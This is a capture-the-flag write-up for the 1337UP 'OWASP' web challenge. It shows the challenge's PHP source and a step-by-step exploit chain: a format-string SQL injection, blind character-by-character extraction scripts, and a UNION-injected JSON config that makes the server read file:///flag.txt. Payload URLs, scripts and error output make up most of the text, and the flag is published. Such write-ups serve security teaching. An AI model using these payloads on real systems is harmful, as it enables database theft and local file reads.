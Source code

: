 ```yaml
---
title: "1337UP web/OWASP"
publishDate: "20 Nov 2023"
description: "Author: cpp.dog"
tags: ["web", "1337up"]
---
```


#### Description

Everyone knows the OWASP top 10 are vulnerable, I guess this might be too 💀

Author: Ivars Vids

#### Code inspection

Sourceless.

P.S.
After CTF has ended, some participants shared the dirbusted source file.
`https://owasp.ctf.intigriti.io/search.php.save`

Please note, I didn't knew about this file, because dirbusting is taboo on most CTFs, if it's not stated in the challenge description. 

So I was desperately guessing every possible shit out there.
```php
<?php
require_once('db.php');
$flag = file_get_contents('/flag.txt');
@include('header.php');

//build sql query
$sql = 'select * from owasp';
$sql_where = '';
foreach ($_REQUEST as $field => $value){
  if ($sql_where) $sql_where = " AND $sql_where";
  $sql_where = "position(%s in $field) $sql_where";
  try {
    $sql_where = @vsprintf($sql_where, Array("'". sqlesc($value) . "'"));
  } catch (ValueError | TypeError $e) {
    $sql_where = '';
  }
  if (preg_match('/[^a-z0-9\.\-_]/i', $field)) die ('Hacking attempt!');
}
$sql .= ($sql_where)?" where $sql_where":'';

foreach(sqlquery($sql) as $row){
  @include('row.php');
  $config = json_decode($row['config'], true);
}

if (isset($config['flag']) && $config['flag']){
  $url = $config['url'];
  // no printer manufacturer domains
  if (preg_match('/canon|epson|brother|hp|minolta|sharp|dell|oki|samsung|xerox|lexmark/i', $url)) die('Looks like a printer!');
//  $url = 'https://www.youtube.com/watch?v=2U3Faa3DejQ';
  if (filter_var($url, FILTER_VALIDATE_URL)) {
    $http_resp = file_get_contents($url);
    var_dump($http_resp);
    if ($flag === $http_resp){
      die('Yes! You got the right flag!');
    }
    die('Wrong flag');
  }
  else {
    die('URL does not start with HTTP or HTTPS protocol!');
  }
}

@include('footer.php');
```

#### Fuzzing

We don't see much of the possible attack vectors on the site, the only interesting thing at quick glance is search field. Which just GET's the search.php

`https://owasp.ctf.intigriti.io/search.php?title=1`

SQL injection is definetely first thing to try here, so let's try something:

`https://owasp.ctf.intigriti.io/search.php?title='"/`

No errors out here what if we add another random query parameter?

`https://owasp.ctf.intigriti.io/search.php?title=%27%22%2F&abacaba=123`

And here we are, definetely SQL injection

```py
Fatal error: Uncaught mysqli_sql_exception: Unknown column 'abacaba' in 'where clause' in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

But after some tries we have found out that query string parameters can only contain something matching this regex `/[a-z0-9_-]/i`, dots and spaces are being replaced to underscores `_`. But since we have `-` not banned we can try to abuse it and comment query to see at least part of it in order to understand what to do next.

`https://owasp.ctf.intigriti.io/search.php?b=1&1=321&--=123`

```py
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ') AND position('321' in 1) AND position('1' in b)' at line 1 in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

So it adds `AND position('value' in key)` for every query parameter in reversed order. Interesting. Looks like we can try format string injection out here.

`https://owasp.ctf.intigriti.io/search.php?a=%1$s)  AND 0;--&id=1`

```py
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1') AND 0;--' in a)' at line 1 in /var/www/html/db.php:11 
Stack trace: 
#0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

We were right about format string injection! Hm, looks like we need to add opening parenthesis before the format string and prefix second parameter with `in title)` in order to get something good.

`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR 0 AND POSITION(`

Above payload returns empty article set, now we can extract everything.
After some information_schema.tables iteration we've found that there's another table called flag, with column flag. Let's dump it!

```py
from cr3.web.brute import trie_brute
from cr3.regex.solver import solve

def callback(flag, c, _):
  return None, f"https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR (SELECT COUNT(flag) FROM flag where HEX(SUBSTR(flag,{len(flag) + 1},1)) = HEX({hex(ord(c))})) > 0 AND POSITION("

flag = trie_brute(success="<h3>", pre_request_callback=callback)
```

`https://www.youtube.com/watch?v=dQw4w9WgXcQ`

And here we go, rickroll...

Well, we've also found additional column in article table named `config`. Let's dump it too.

```py
from cr3.web.brute import trie_brute
from cr3.regex.solver import solve

def callback(flag, c, _):
  return None, f"https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) OR (SELECT GROUP_CONCAT(config) FROM owasp where HEX(SUBSTR(config,{len(flag) + 1},1)) = HEX({hex(ord(c))})) > 0 AND POSITION("

flag = trie_brute(success="<h3>", pre_request_callback=callback)
```

```json
{}, {"__proto__":{"flag": "https://www.youtube.com/watch?v=Ct6BUPvE2sM"}}, {}, {"flag":false}, {}, [], 1337, "1337UP", null
```

It's JSON and there's new youtube link with another rickroll. 
`https://www.youtube.com/watch?v=Ct6BUPvE2sM`

But what happens if we'll give our own config, with something like this `{"flag":true}`?

`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275657D;-- AND POSITION(`

```py
Warning: Undefined array key "url" in /var/www/html/search.php on line 27

Deprecated: preg_match(): Passing null to parameter 
#2 ($subject) of type string is deprecated in /var/www/html/search.php on line 29
URL does not start with HTTP or HTTPS protocol!
```

Let's try passing this value: `{"flag":true,"url":"link-to-webhooks"}`.
`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275652C2275726C223A2268747470733A2F2F776562686F6F6B2E736974652F32623037613133312D646534362D343135332D626561662D343036633265353831396132227D;-- AND POSITION(`

```py
string(140) 
"This URL has no default content configured. View in Webhook.site." 
Wrong flag
```

Hmm, let's try LFI:
`https://owasp.ctf.intigriti.io/search.php?id=(%1$s&title=in title) UNION SELECT 1,2,3, 0x7B22666C6167223A747275652C2275726C223A2266696C653A2F2F2F666C61672E747874227D;-- AND POSITION(`

```py
string(40) 
"INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}" 
Yes! You got the right flag!
```

#### Flag
`INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}`